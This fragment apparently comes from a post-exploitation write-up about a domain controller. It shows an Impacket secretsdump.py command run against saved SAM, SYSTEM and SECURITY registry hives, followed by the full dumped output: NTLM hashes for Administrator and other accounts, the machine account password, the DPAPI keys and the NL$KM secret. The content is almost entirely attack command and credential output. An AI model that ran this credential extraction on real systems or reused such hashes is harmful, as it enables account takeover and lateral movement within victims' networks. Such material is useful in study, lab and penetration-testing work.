 ![dc](/Post-Exploitation/images/dc-pwn-2.png) 

	secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE                  
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Target system bootKey: 0x355a7abc42fc90875740e499c937b0b5
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:a678b5e7cc4c143b1d76a69ddf14c3ae:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
	[*] Dumping cached domain logon information (domain/username:hash)
	[*] Dumping LSA Secrets
	[*] $MACHINE.ACC 
	$MACHINE.ACC:plain_password_hex:6fb87c95629f8815074f26a01625a59eaaef289a215a4d5bd09d55d926956b26b90401deb6ef66b60bb9c7930dd33b6b7495791f1d05454b579db3965417ddec964dffb08878055b68dbf2902221ea814f6645214463499ee09001693a58ee443fe8c03d71c4083dc3d2018e366ffaa73fa11a39616b5814cdbcf28319d052a4f82301a459523d0fa4cf40e84116c05b2379da5ef23b4bba5d8c4183c5352029d9a17f3a7762ff5a5162877dc65fc87fdcd9bd38966aeac7a2baca1f7317d39d36d8c8854e2aec17bc725026516d59cc927611420837b03b911579683a9a75ce1531e87ec1842bafcf0e22d372f2e6b1
	$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:27fce1aa344fa53f072303806d496a0b
	[*] DPAPI_SYSTEM 
	dpapi_machinekey:0x62c67d3115e3cf5000667bddd06086b471a3fec6
	dpapi_userkey:0x860cfa00b9a277abfd05d4251b545a6d427d3cb9
	[*] NL$KM 
	 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
	 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
	 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.
	 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-
	NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
	[*] Cleaning up... 
